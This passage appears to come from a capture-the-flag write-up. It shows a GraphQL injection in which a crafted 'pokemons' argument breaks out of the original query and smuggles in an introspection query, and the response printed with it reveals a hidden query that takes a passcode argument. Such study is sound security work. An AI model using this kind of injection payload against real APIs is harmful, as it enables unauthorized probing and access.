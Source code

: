 In the schema, there're 4 queries, which are `hello`, `bye`, `pokemon`, and **`digimOwOUwURawrn38408375018458385023841203489738570123`**.

Huh, the last query name seems very interesting. In that query, **the return object is `Digimon0x000141a0`**. Let's take a look at its arguments.

**Query `digimOwOUwURawrn38408375018458385023841203489738570123` arguments:**
```json
{
  "pokemons": [
    "anything\"){id},injected_query:__type(name:\"Query\"){name,fields{name,type{name,kind},args{name,type{name,ofType{name}}}}}}#"
  ],
  "compares": []
}
```

**Response:**
```json
{
  "data": {
    [...]
    "injected_query": {
      "fields": [
        [...]
        {
          "args": [
            {
              "name": "passcode",
              "type": {
                "name": null,
                "ofType": {
                  "name": "String"
                }
              }
            },
            {
              "name": "name",
              "type": {
                "name": null,
                "ofType": {
                  "name": "String"
                }
              }
            }
          ],
          "name": "digimOwOUwURawrn38408375018458385023841203489738570123",
          "type": {
            "kind": "OBJECT",
            "name": "Digimon0x000141a0"
          }
        }
      ],
      "name": "Query"
    }
  }
}
```
